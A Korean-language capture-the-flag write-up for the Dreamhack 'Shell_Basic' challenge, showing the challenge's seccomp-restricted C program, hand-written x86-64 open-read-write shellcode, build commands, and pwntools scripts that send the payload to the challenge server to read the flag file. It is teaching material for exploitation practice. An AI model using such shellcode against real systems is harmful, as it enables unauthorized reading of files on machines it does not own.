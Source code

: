 ```yaml
---
title: Shell_Basic
author: heogi
date: 2023-10-08
categories:
  - CTF
  - Dreamhack
tags:
  - system
  - shellcode
  - ORW
comments: true
---
```

## Description

> 입력한 셸코드를 실행하는 프로그램이 서비스로 등록되어 작동하고 있습니다.  
> main 함수가 아닌 다른 함수들은 execve, execveat 시스템 콜을 사용하지 못하도록 하며, 풀이와 관련이 없는 함수입니다.  
> flag 파일의 위치와 이름은 /home/shell\_basic/flag\_name\_is\_loooooong입니다.  
> 감 잡기 어려우신 분들은 아래 코드를 가지고 먼저 연습해보세요!  
> 플래그 형식은 DH{...} 입니다. DH{ 와 }도 모두 포함하여 인증해야 합니다.

## **프로그램 분석**

![](../assets/img/Pasted%20image%2020240413005132.png)

문제에서 제시된 프로그램을 실행하면 Shellcode를 입력받는다.

포함되어있는 소스를 보면 쉘코드를 받아서 실행을 해준다.

```c
// Compile: gcc -o shell_basic shell_basic.c -lseccomp
// apt install seccomp libseccomp-dev

#include <fcntl.h>
#include <seccomp.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <sys/prctl.h>
#include <unistd.h>
#include <sys/mman.h>
#include <signal.h>

void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void init() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(10);
}

void banned_execve() {
  scmp_filter_ctx ctx;
  ctx = seccomp_init(SCMP_ACT_ALLOW);
  if (ctx == NULL) {
    exit(0);
  }
  seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(execve), 0);
  seccomp_rule_add(ctx, SCMP_ACT_KILL, SCMP_SYS(execveat), 0);

  seccomp_load(ctx);
}

void main(int argc, char *argv[]) {
  char *shellcode = mmap(NULL, 0x1000, PROT_READ | PROT_WRITE | PROT_EXEC, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);   
  void (*sc)();
  
  init();
  
  banned_execve();

  printf("shellcode: ");
  read(0, shellcode, 0x1000);

  sc = (void *)shellcode;
  sc();
}
```

execve, execveat 함수는 사용하지 못 하도록 되어있어 Flag를 ORW(Open Read Write) 쉘코드를 통해 읽어야한다.

## **ShellCode 작성**

\* shellcode.asm

```
; File name: shellcode.asm
section .text
global _start
_start:
push 0x0
mov rax, 0x676e6f6f6f6f6f6f ; oooooong
push rax
mov rax, 0x6c5f73695f656d61 ; ame_is_l
push rax
mov rax, 0x6e5f67616c662f63 ; c/flag_n
push rax
mov rax, 0x697361625f6c6c65 ; ell_basi
push rax
mov rax, 0x68732f656d6f682f ; /home/sh
push rax
mov rdi, rsp
xor rsi, rsi
xor rdx, rdx
mov rax, 0x2
syscall ; Open

mov rdi, rax
mov rsi, rsp
sub rsi, 0x30
mov rdx, 0x30
mov rax, 0x0
syscall ;Read

mov rdi, 0x1
mov rax, 0x1
syscall ; Write
```

Flag 파일의 경로는 `/home/shell_basic/flag_name_is_loooooong`로 8 Btye 씩 잘라서 스택에 Push 해준다.

asm을 작성 후 아래 명령어를 통해 쉘코드를 작성한다.

8 Byte 씩 자른 문자열은 아래 명령어를 통해 little endian 방식으로 packing을 진행한다.

```python
>>> p64(int(binascii.hexlify(b"oooooong"),16)).hex()
'676e6f6f6f6f6f6f'
```

```shell
nasm -f elf64 shellcode.asm
objdump -d shellcode.o
objcopy --dump-section .text=shellcode.bin shellcode.o
hexdump -v -e '"\\""x" 1/1 "%02x" ""' shellcode.bin
```

패킹을 진행한 쉘코드 바이트를 pwntools를 통해 서버에 입력한다.

```python
from pwn import *

p = remote("host3.dreamhack.games",18477)

shellcode = b"\x6a\x00\x48\xb8\x6f\x6f\x6f\x6f\x6f\x6f\x6e\x67\x50\x48\xb8\x61\x6d\x65\x5f\x69\x73\x5f\x6c\x50\x48\xb8\x63\x2f\x66\x6c\x61\x67\x5f\x6e\x50\x48\xb8\x65\x6c\x6c\x5f\x62\x61\x73\x69\x50\x48\xb8\x2f\x68\x6f\x6d\x65\x2f\x73\x68\x50\x48\x89\xe7\x48\x31\xf6\x48\x31\xd2\xb8\x02\x00\x00\x00\x0f\x05\x48\x89\xc7\x48\x89\xe6\x48\x83\xee\x30\xba\x30\x00\x00\x00\xb8\x00\x00\x00\x00\x0f\x05\xbf\x01\x00\x00\x00\xb8\x01\x00\x00\x00\x0f\x05"

p.send(shellcode)
p.interactive()
```

![](../assets/img/Pasted%20image%2020240413005303.png)

아래는 ShellCraft를 통해 작성한 ORW Shellcode 이다.

```python
from pwn import *

context(arch="amd64", os="linux")

p = remote("host3.dreamhack.games",17850)

shellcode = shellcraft.open("/home/shell_basic/flag_name_is_loooooong")
shellcode += shellcraft.read("rax","rsp",100)
shellcode += shellcraft.write(1,"rsp",100)

p.recvuntil("shellcode:")
p.send(asm(shellcode))

print(p.recvline())
```